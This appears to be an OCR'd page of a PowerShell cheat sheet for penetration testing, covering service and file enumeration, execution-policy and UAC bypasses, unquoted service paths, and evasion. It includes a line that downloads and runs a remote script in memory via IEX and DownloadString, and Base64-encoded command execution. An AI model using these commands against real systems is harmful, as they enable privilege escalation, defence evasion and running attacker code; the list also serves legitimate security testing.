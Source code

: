 ### Services
- `Get-Service`  
  Lists services and their statuses.
- `Get-CimInstance -ClassName Win32_Service`  
  Retrieves detailed service info.

### Files
- `Get-ChildItem -Recurse -Include *.txt,*.docx`  
  Searches for specific file types.
- `Get-Content <file>`  
  Reads file contents.

---

## Privilege Escalation

### Execution Policy
- `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass`  
  Bypasses script execution restrictions.
- `powershell -ep bypass`  
  Launches PowerShell without policy enforcement.

### UAC Bypass
- `Invoke-FodHelperBypass -Program "powershell"`  
  Uses fodhelper.exe to escalate (requires admin).
- `Start-Process powershell -Verb RunAs`  
  Launches an elevated shell.

### Misconfigurations
- `Get-CimInstance -ClassName Win32_Service | Where-Object {$_.PathName -notlike '*"'}`  
  Finds unquoted service paths.

---

## Payload Execution and Evasion

### In-Memory Execution
- `IEX (New-Object Net.WebClient).DownloadString('http://<url>/script.ps1')`  
  Downloads and runs a script in memory.
- `Invoke-WebRequest -Uri <url> -OutFile <file>`  
  Downloads a file.

### Encoded Commands
- `powershell -enc <base64_string>`  
  Executes Base64-encoded commands.
- `[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('command'))`  
  Encodes a command.
